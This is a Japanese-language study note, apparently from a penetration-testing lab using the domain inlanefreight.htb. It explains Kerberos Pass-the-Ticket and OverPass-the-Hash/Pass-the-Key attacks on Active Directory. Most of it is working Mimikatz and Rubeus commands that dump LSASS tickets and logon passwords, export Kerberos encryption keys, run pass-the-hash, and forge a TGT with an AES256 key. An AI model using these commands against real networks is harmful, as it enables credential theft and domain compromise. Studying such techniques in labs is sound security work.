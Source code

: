 チケットの方式
- **`$` で終わるチケット** → コンピューターアカウント用
    - Active Directory とやり取りするために必要
- **ユーザーのチケット** → ユーザー名が含まれる
    - `@` の後に **サービス名とドメイン** が続く
- **チケットのフォーマット例** → `[randomvalue]-username@service-domain.local.kirbi`

mimikatz.exeの実行
```cmd
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit
```

evil-winrmとかだと上野方式がうまく動かない可能性が全然あるので、↓を使う
```powershell
.\mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" exit
```

- 注意点
	- Mimikatzバージョン2.2.0 20220919を使用すると、間違って他暗号化のため正しく動作しない
Rubeus.exeでもチケットのエクスポートはできる
```cmd-session
Rubeus.exe dump /nowrap
```

取得したKerberosチケットの収集
```cmd-session
dir *.kirbi
```

### Pass the Key（PtK） / OverPass the Hash（OPtH）
- LSASSのメモリからKerberosチケットを取得するPtT攻撃は、実際にはNTLMパスワードハッシュを再利用する方法で、Kerberosを直接利用しているものではなかった
- 一方でPtKとかOPtHは、ドメイン参加ユーザーのハッシュや鍵を使って、チケット授与チケット(TGT)を作成する手法
- チケットを偽造するための準備
	- ユーザーのハッシュが必要
Mimikatzの`sekurlsa::ekeys`を使用して、すべてのユーザーのKerberos暗号化キーをダンプできる
```cmd
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

上のコマンドの結果、AES256_HMAC キーと RC4_HMAC キーにアクセスできるようになり、Mimikatz と Rubeus を使用して、OverPass the Hash または Pass the Key 攻撃を実行できる
- **AES暗号化**（AES256またはAES128）を使用した方がいい？？
- 新しい `cmd.exe` ウィンドウが作成され、ターゲットユーザーのコンテキストで、任意のサービスへのアクセスをリクエストできる
	- でもこれだと、明示的に資格情報を使う認証が必要な場合は突破できない
```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:<User Name> /ntlm:<sekurlsa::ekeysのrc4_*の値>
```

Rubeus を使用して Kerberosチケットを偽造 するには、/rc4、/aes128、/aes256、または /des オプションを使用し、ユーザー名・ドメイン・ハッシュを指定して asktgt モジュールを実行できる
Mimikatz sekurlsa::ekeys を使用して取得した情報から、AES256のハッシュを使用してチケットを作成する
```cmd
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:<User Name> /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
